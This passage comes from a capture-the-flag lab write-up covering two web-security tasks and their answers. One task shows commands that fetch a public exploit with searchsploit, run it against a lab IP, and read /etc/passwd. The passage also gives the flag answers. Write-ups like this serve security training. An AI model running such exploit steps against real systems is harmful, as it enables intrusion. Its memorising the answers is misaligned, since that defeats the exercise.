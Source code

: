 {% hint style="success" %}
`4a69a7ff9fd68`
{% endhint %}

## \[Severity 9] Components With Known Vulnerabilities - Practical

#### **How many characters are in /etc/passwd**

```bash
searchsploit book store
searchsploit -m 47887
python3 47887.py http://10.10.213.160
> wc -c /etc/passwd
```

![](<../../.gitbook/assets/Screenshot from 2020-08-27 10-15-17.png>)

{% hint style="success" %}
`1611`
{% endhint %}

## \[Severity 10] Insufficient Logging and Monitoring

#### **What IP address is the attacker using?**

```
cat login-logs.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 23-07-13.png>)

{% hint style="success" %}
`49.99.13.16`
{% endhint %}
